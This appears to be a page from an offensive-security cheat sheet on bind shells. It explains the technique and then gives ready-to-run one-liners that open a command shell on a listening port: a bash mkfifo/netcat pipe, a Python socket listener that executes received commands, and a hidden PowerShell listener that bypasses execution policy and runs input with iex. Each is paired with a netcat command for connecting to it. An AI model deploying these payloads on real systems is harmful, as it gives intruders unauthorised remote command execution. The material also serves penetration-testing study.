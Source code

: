 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bind shell

A **Bind Shell** is a technique used to gain remote access to a victim's system by making it listen on a port and then connect to that listener. The shell sent to listen is attached to the target's shell on the target system, letting us take control of the internal shell by connecting to it.

## <mark style="color:orange;">Basic script</mark>

* &#x20;Use a script that establishes a listening port on the target machine

{% code title="BindShell.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
```
{% endcode %}

* Connect to the listening port we have set using [_Netcat_](../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using Python</mark>

* &#x20;Use this command to establish a listening port on the target machine with _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",$port));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using PowerShell</mark>

* &#x20;Use this command to establish a listening port on a _Windows_ target machine using the PowerShell

{% code overflow="wrap" lineNumbers="true" %}
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]$port; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}
